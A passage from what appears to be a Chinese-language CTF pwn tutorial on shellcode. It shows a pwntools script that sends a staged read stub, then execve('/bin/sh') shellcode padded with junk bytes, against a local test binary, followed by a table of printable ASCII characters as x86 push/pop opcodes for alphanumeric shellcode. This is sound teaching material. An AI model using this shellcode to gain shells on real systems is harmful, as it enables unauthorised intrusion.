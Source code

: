 ```plain
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test2')

shellcode = asm('''
    mov rbx, 0x0068732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 59
    pop rax
    syscall
''')
rea = asm('''
    push rax
    pop rsi
    xor edi,edi
    push r11
    pop rdx
    xor eax,eax 
    syscall
''')
io.sendafter(':\n',rea)#
#sleep(0.1)
gdb.attach(io)
pause()
io.send(b'a'*0xb+shellcode)
io.interactive()
```

要注意 shellcode 要接到原来 readshellcode 的后面，所以要先用垃圾字节将前面覆盖

### 纯 ascii 字符 shellcode

某些题目会限制我们用纯字符的 shellcode 来 getshell，比如限制输入的 shellcode 转换成 ascaii 码要是可见字符的 shellcode，这要求我们对机器码有一定的了解

例如：

```plain
ASCII 字符     Hex     汇编指令
P           0x50    push %rax
Q           0x51    push %rcx
R           0x52    push %rdx
S           0x53    push %rbx
T           0x54    push %rsp
U           0x55    push %rbp
V           0x56    push %rsi
W           0x57    push %rdi
X           0x58    pop %rax
Y           0x59    pop %rcx
Z           0x5a    pop %rdx
```
